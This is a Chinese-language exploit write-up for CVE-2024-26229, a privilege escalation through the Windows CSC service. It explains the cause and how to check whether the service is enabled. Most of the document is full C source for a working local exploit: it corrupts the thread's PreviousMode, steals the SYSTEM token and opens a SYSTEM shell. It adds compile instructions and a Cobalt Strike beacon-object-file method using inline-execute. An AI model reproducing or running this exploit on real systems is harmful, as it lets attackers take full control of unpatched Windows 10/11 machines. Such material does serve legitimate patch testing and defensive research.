

# CVE-2024-26229

> **Created By：** A-little-dragon
> **漏洞描述：** Windows提权漏洞


## 0x01 漏洞成因

Windows CSC服务特权提升漏洞。 当程序向缓冲区写入的数据超出其处理能力时，就会发生基于堆的缓冲区溢出，从而导致多余的数据溢出到相邻的内存区域。这种溢出会损坏内存，并可能使攻击者能够执行任意代码或未经授权访问系统。本质上，攻击者可以编写触发溢出的恶意代码或输入，从而控制受影响的系统、执行任意命令、安装恶意软件或访问敏感数据。 微软已发出警告成功利用此漏洞的攻击者可以获得 SYSTEM 权限，这是 Windows 系统上的最高访问级别。这增加了与 CVE-2024-26229 相关的风险，使其成为恶意行为者的主要目标。

## 0x02 前置条件

需要主机开启`csc`服务，使用如下命令查询，显示`SYSTEM_START`即为开启。

> 2008/2012没有该服务，因此无法利用。2016/2019/2022虽然有该服务，但默认情况下禁用，且无法启动。因此，仅可用于windows10/11系统。
> 

```
sc qc csc
```



## 0x03 漏洞利用

### 方式一

项目地址：https://github.com/RalfHacker/CVE-2024-26229-exploit

代码如下：

```c
#include <Windows.h>
#include <stdio.h>
#include <winternl.h>
#include <stdint.h>

#define STATUS_SUCCESS 0

#define NtCurrentProcess() ((HANDLE)(LONG_PTR)-1)
#define EPROCESS_TOKEN_OFFSET			0x4B8
#define KTHREAD_PREVIOUS_MODE_OFFSET	0x232
#define CSC_DEV_FCB_XXX_CONTROL_FILE    0x001401a3

#define SystemHandleInformation			0x10
#define SystemHandleInformationSize		0x400000

enum _MODE
{
	KernelMode = 0,
	UserMode = 1
};

typedef struct _SYSTEM_HANDLE_TABLE_ENTRY_INFO
{
	USHORT UniqueProcessId;
	USHORT CreatorBackTraceIndex;
	UCHAR ObjectTypeIndex;
	UCHAR HandleAttributes;
	USHORT HandleValue;
	PVOID Object;
	ULONG GrantedAccess;
} SYSTEM_HANDLE_TABLE_ENTRY_INFO, * PSYSTEM_HANDLE_TABLE_ENTRY_INFO;

typedef struct _SYSTEM_HANDLE_INFORMATION
{
	ULONG NumberOfHandles;
	SYSTEM_HANDLE_TABLE_ENTRY_INFO Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;

typedef NTSTATUS(__stdcall* _NtWriteVirtualMemory)(HANDLE, PVOID, PVOID, ULONG, PULONG);
_NtWriteVirtualMemory pNtWriteVirtualMemory;

typedef NTSTATUS(__stdcall* _NtQuerySystemInformation)(SYSTEM_INFORMATION_CLASS, PVOID, ULONG, PULONG);
_NtQuerySystemInformation pNtQuerySystemInformation;

typedef NTSTATUS(__stdcall* _RtlInitUnicodeString)(PUNICODE_STRING, PCWSTR);
_RtlInitUnicodeString pRtlInitUnicodeString;

typedef NTSTATUS(__stdcall* _NtFsControlFile)(HANDLE, HANDLE, PIO_APC_ROUTINE, PVOID, PIO_STATUS_BLOCK, ULONG, PVOID, ULONG, PVOID, ULONG);
_NtFsControlFile pNtFsControlFile;

typedef NTSTATUS(__stdcall* _NtCreateFile)(PHANDLE, ACCESS_MASK, POBJECT_ATTRIBUTES, PIO_STATUS_BLOCK, PLARGE_INTEGER, ULONG, ULONG, ULONG, ULONG, PVOID, ULONG);
_NtCreateFile pNtCreateFile;

int NtLoad() {
	HMODULE hModule = GetModuleHandle(L"ntdll.dll");

	if (hModule != 0) {
		pNtWriteVirtualMemory = (_NtWriteVirtualMemory)GetProcAddress(hModule, "NtWriteVirtualMemory");
		if (!pNtWriteVirtualMemory)
		{
			printf("[-] NtWriteVirtualMemory not loaded\n");
			return 1;
		}

		pNtQuerySystemInformation = (_NtQuerySystemInformation)GetProcAddress(hModule, "NtQuerySystemInformation");
		if (!pNtQuerySystemInformation)
		{
			printf("[-] NtQuerySystemInformation not loaded\n");
			return 1;
		}

		pRtlInitUnicodeString = (_RtlInitUnicodeString)GetProcAddress(hModule, "RtlInitUnicodeString");
		if (!pRtlInitUnicodeString)
		{
			printf("[-] RtlInitUnicodeString not loaded\n");
			return 1;
		}

		pNtFsControlFile = (_NtFsControlFile)GetProcAddress(hModule, "NtFsControlFile");
		if (!pNtFsControlFile)
		{
			printf("[-] NtFsControlFile not loaded\n");
			return 1;
		}

		pNtCreateFile = (_NtCreateFile)GetProcAddress(hModule, "NtCreateFile");
		if (!pNtCreateFile)
		{
			printf("[-] NtCreateFile not loaded\n");
			return 1;
		}
	}
	else
	{
		printf("[-] NTDLL not loaded\n");
		return 1;
	}
	return 0;
}

int GetObjPtr(_Out_ PULONG64 ppObjAddr, _In_ ULONG ulPid, _In_ HANDLE handle)

{
	int Ret = -1;
	PSYSTEM_HANDLE_INFORMATION pHandleInfo = 0;
	ULONG ulBytes = 0;
	NTSTATUS Status = STATUS_SUCCESS;

	while ((Status = pNtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemHandleInformation, pHandleInfo, ulBytes, &ulBytes)) == 0xC0000004L)
	{
		if (pHandleInfo != NULL)
			pHandleInfo = (PSYSTEM_HANDLE_INFORMATION)HeapReAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, pHandleInfo, (size_t)2 * ulBytes);
		else
			pHandleInfo = (PSYSTEM_HANDLE_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, (size_t)2 * ulBytes);
	}

	if (Status != NULL)
	{
		Ret = Status;
		goto done;
	}

	for (ULONG i = 0; i < pHandleInfo->NumberOfHandles; i++)
	{
		if ((pHandleInfo->Handles[i].UniqueProcessId == ulPid) && (pHandleInfo->Handles[i].HandleValue == (unsigned short)handle))
		{
			*ppObjAddr = (ULONG64)pHandleInfo->Handles[i].Object;
			Ret = 0;
			break;
		}
	}

done:
	return Ret;
}

NTSTATUS Write64(_In_ uintptr_t* Dst, _In_ uintptr_t* Src, _In_ size_t Size)
{
	NTSTATUS Status = 0;
	size_t cbNumOfBytesWrite = 0;

	Status = pNtWriteVirtualMemory(GetCurrentProcess(), Dst, Src, Size, &cbNumOfBytesWrite);
	if (!NT_SUCCESS(Status))
		return -1;

	return Status;
}

NTSTATUS Exploit()
{
	UNICODE_STRING  objectName = { 0 };
	OBJECT_ATTRIBUTES objectAttr = { 0 };
	IO_STATUS_BLOCK iosb = { 0 };
	HANDLE handle;
	NTSTATUS status = 0;

	uintptr_t Sysproc = 0;
	uintptr_t Curproc = 0;
	uintptr_t Curthread = 0;
	uintptr_t Token = 0;

	HANDLE hCurproc = 0;
	HANDLE hThread = 0;
	uint32_t Ret = 0;
	uint8_t mode = UserMode;

	pRtlInitUnicodeString(&objectName, L"\\Device\\Mup\\;Csc\\.\\.");
	InitializeObjectAttributes(&objectAttr, &objectName, 0, NULL, NULL);

	status = pNtCreateFile(&handle, SYNCHRONIZE, &objectAttr, &iosb, NULL, FILE_ATTRIBUTE_NORMAL, 0, FILE_OPEN_IF, FILE_CREATE_TREE_CONNECTION, NULL, 0);
	if (!NT_SUCCESS(status))
	{
		printf("[-] NtCreateFile failed with status = %x\n", status);
		return status;
	}

	Ret = GetObjPtr(&Sysproc, 4, 4);
	if (Ret != NULL)
	{
		return Ret;
	}
	printf("[+] System EPROCESS address = %llx\n", Sysproc);

	hThread = OpenThread(THREAD_QUERY_INFORMATION, TRUE, GetCurrentThreadId());
	if (hThread != NULL)
	{
		Ret = GetObjPtr(&Curthread, GetCurrentProcessId(), hThread);
		if (Ret != NULL)
		{
			return Ret;
		}
		printf("[+] Current THREAD address = %llx\n", Curthread);
	}

	hCurproc = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, GetCurrentProcessId());
	if (hCurproc != NULL)
	{
		Ret = GetObjPtr(&Curproc, GetCurrentProcessId(), hCurproc);
		if (Ret != NULL)
		{
			return Ret;
		}
		printf("[+] Current EPROCESS address = %llx\n", Curproc);
	}

	status = pNtFsControlFile(handle, NULL, NULL, NULL, &iosb, CSC_DEV_FCB_XXX_CONTROL_FILE, /*Vuln arg*/ (void*)(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET - 0x18), 0, NULL, 0);
	if (!NT_SUCCESS(status))
	{
		printf("[-] NtFsControlFile failed with status = %x\n", status);
		return status;
	}

	printf("[!] Leveraging DKOM to achieve LPE\n");
	printf("[!] Calling Write64 wrapper to overwrite current EPROCESS->Token\n");

	Write64(Curproc + EPROCESS_TOKEN_OFFSET, Sysproc + EPROCESS_TOKEN_OFFSET, 0x8);

	Write64(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET, &mode, 0x1);

	system("cmd.exe");

	return STATUS_SUCCESS;
}

int main()
{
	if( NtLoad() ) return 1;
	NTSTATUS status = Exploit();
	return status;
}
```

把代码用Visual Studio编译，编译时选择MTd多线程调试


提权成功


### 方式二

项目地址：[https://github.com/NVISOsecurity/CVE-2024-26229-BOF](https://github.com/NVISOsecurity/CVE-2024-26229-BOF)

CS无文件执行，直接 `inline-execute [文件位置]` 就行。

```c
inline-execute D:\CVE-2024-26229-bof.o
```

编译文件

```c
gcc -c CVE-2024-26229-bof.c -o CVE-2024-26229-bof.o
```

